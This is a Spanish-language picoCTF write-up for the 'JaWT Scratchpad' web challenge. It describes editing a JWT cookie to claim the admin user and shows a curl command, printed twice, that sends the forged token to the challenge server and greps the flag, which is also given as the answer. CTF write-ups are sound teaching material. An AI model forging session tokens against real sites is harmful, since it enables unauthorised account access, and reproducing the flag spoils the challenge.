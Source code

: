 # JaWT Scratchpad

## Description

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

## Hints 1 2

* What is that cookie?
* Have you heard of JWT?

## Solución

![[Pasted image 20250331224642.png]]

Ingresamos al link proporcionado y al intentar varias entrenar, no lo conseguimos, nos dirigimos al cookie editor y copiamos su **value**, lo pegamos en el link de **jwt** para decodificarlo y cambiarle el usuario y contraseña:

![[Pasted image 20250331230608.png]]

Una vez realizado eso, abrimos una terminal de **webshell**, e ingresamos el siguiente comando y con eso nos mostrara nuestra respectiva flag:

```
Jaz_sparrow-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/58210/ -H "Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s"  | grep pico
                                        <textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_44c752f5}</textarea>
Jaz_sparrow-picoctf@webshell:~$ 
```

Jaz_sparrow-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/58210/ -H "Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s"  | grep pico
                                        <textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_44c752f5}</textarea>
Jaz_sparrow-picoctf@webshell:~$ 

### Respuesta: picoCTF{jawt_was_just_what_you_thought_44c752f5}

## Referencias:
https://jwt.io/
